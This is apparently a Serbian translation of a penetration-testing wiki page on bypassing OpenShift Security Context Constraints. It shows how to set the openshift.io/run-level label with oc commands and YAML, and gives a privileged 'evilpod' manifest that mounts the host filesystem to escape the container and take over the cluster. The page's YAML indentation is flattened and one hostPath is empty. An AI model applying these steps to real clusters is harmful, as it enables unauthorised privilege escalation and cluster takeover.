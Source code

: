 # Openshift - SCC bypass

**Originalni autor ove stranice je** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privilegovani Namespaces

Po defaultu, SCC se ne primenjuje na sledeće projekte:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Ako implementirate podove unutar jednog od ovih namespaces, SCC se neće primenjivati, što omogućava implementaciju privilegovanih podova ili montiranje host fajl sistema.

## Namespace Label

Postoji način da se onemogući primena SCC na vašem podu prema RedHat dokumentaciji. Biće vam potrebna najmanje jedna od sledećih dozvola:

- Kreirajte Namespace i kreirajte Pod u ovom Namespace
- Uredite Namespace i kreirajte Pod u ovom Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Specifična oznaka `openshift.io/run-level` omogućava korisnicima da zaobiđu SCC-e za aplikacije. Prema RedHat dokumentaciji, kada se ova oznaka koristi, nijedni SCC-i se ne primenjuju na sve podove unutar tog imenskog prostora, efikasno uklanjajući sve restrikcije.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Dodaj Oznaku

Da dodate oznaku u vašem imenskom prostoru:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Da biste kreirali namespace sa oznakom putem YAML datoteke:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Sada, svi novi podovi kreirani u imenu prostora ne bi trebali imati nijednu SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

U odsustvu SCC, nema ograničenja na definiciju vašeg poda. To znači da se zlonamerni pod može lako kreirati da pobegne na host sistem.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Sada je postalo lakše eskalirati privilegije za pristup host sistemu i potom preuzeti ceo klaster, stičući 'cluster-admin' privilegije. Potražite deo **Node-Post Exploitation** na sledećoj stranici:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Prilagođene oznake

Pored toga, na osnovu ciljne postavke, neke prilagođene oznake / anotacije mogu se koristiti na isti način kao u prethodnom scenariju napada. Čak i ako nisu napravljene za to, oznake se mogu koristiti za davanje dozvola, ograničavanje ili ne određenog resursa.

Pokušajte da potražite prilagođene oznake ako možete da pročitate neke resurse. Evo liste zanimljivih resursa:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Nabrojite sve privilegovane imenske prostore
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Napredni eksploat

U OpenShift-u, kao što je ranije prikazano, imati dozvolu za implementaciju poda u imenskom prostoru sa `openshift.io/run-level` oznakom može dovesti do jednostavnog preuzimanja klastera. Sa aspekta podešavanja klastera, ova funkcionalnost **ne može biti onemogućena**, jer je inherentna dizajnu OpenShift-a.

Međutim, mere ublažavanja poput **Open Policy Agent GateKeeper** mogu sprečiti korisnike da postave ovu oznaku.

Da bi zaobišli pravila GateKeeper-a i postavili ovu oznaku za izvršenje preuzimanja klastera, **napadači bi morali da identifikuju alternativne metode.**

## Reference

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
